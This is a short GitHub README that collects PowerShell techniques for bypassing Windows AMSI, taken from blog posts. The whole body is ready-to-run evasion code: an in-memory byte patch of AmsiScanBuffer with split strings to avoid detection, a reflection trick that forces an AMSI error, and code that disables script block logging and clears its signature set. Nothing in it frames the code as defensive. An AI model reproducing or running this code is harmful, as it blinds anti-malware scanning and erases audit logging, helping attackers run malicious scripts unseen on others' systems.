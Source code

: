 # Amsi-Bypass-Powershell
This repo contains some Amsi Bypass methods i found on different Blog Posts.

## 1) Patching amsi.dll AmsiScanBuffer

`$Win32 = @"
using System;
using System.Runtime.InteropServices;

public class Win32 {

    [DllImport("kernel32")]
    public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);

    [DllImport("kernel32")]
    public static extern IntPtr LoadLibrary(string name);

    [DllImport("kernel32")]
    public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);

}
"@

Add-Type $Win32

$LoadLibrary = [Win32]::LoadLibrary("am" + "si.dll")
$Address = [Win32]::GetProcAddress($LoadLibrary, "Amsi" + "Scan" + "Buffer")
$p = 0
[Win32]::VirtualProtect($Address, [uint32]5, 0x40, [ref]$p)
$Patch = [Byte[]] (0xB8, 0x57, 0x00, 0x07, 0x80, 0xC3)
[System.Runtime.InteropServices.Marshal]::Copy($Patch, 0, $Address, 6)`

## 2) Forcing an error

`$mem = [System.Runtime.InteropServices.Marshal]::AllocHGlobal(9076)

[Ref].Assembly.GetType("System.Management.Automation.AmsiUtils").GetField("amsiSession","NonPublic,Static").SetValue($null, $null);[Ref].Assembly.GetType("System.Management.Automation.AmsiUtils").GetField("amsiContext","NonPublic,Static").SetValue($null, [IntPtr]$mem)`

## 3) Disable Script Logging

`$settings = [Ref].Assembly.GetType("System.Management.Automation.Utils").GetField("cachedGroupPolicySettings","NonPublic,Static").GetValue($null);
$settings["HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows\PowerShell\ScriptBlockLogging"] = @{}
$settings["HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows\PowerShell\ScriptBlockLogging"].Add("EnableScriptBlockLogging", "0")`

`[Ref].Assembly.GetType("System.Management.Automation.ScriptBlock").GetField("signatures","NonPublic,static").SetValue($null, (New-Object 'System.Collections.Generic.HashSet[string]'))`
